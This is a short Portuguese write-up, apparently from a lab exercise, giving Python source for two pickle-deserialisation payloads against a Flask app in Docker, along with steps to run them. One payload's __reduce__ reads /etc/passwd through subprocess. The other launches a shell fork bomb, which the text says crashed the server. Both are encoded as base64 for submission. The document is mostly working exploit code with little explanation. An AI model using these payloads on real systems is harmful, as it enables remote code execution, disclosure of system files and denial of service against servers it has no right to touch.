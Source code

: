 abaixo o conteudo python de cada um dos payloads um deles e o fork bomb que funciona como um DoS o que fez com que a gente conseguisse derrubar o servidor  
para executar devemos executar este script python com python3 payload.py logo sera gerada dois codigos serializados em base64 e devemos escolher se queremos  que printa no site ou no servidor docker 

para uar o do servidor docker apos executar o comando no site usamos 

docker ps 

pegamos o nome do docker neste caso pro_01-flask_app-1
 
docker logs -f pro_01-flask_app-1

class Evil:
    def __reduce__(self):
        # esse comando lê o /etc/passwd
        return (subprocess.check_output, (["cat", "/etc/passwd"],))

payload = pickle.dumps(Evil())
print("show in website " +  base64.urlsafe_b64encode(payload).decode())

# este abaixo e um fork bomb o objetivo e criar inumeros sub processos no servidor alvo

class TERM:
    def __reduce__(self):
        return (os.system, ("bomb(){ bomb|bomb& };bomb",))

second_payload = pickle.dumps(TERM())
print("show in terminal " + base64.urlsafe_b64encode(second_payload).decode())
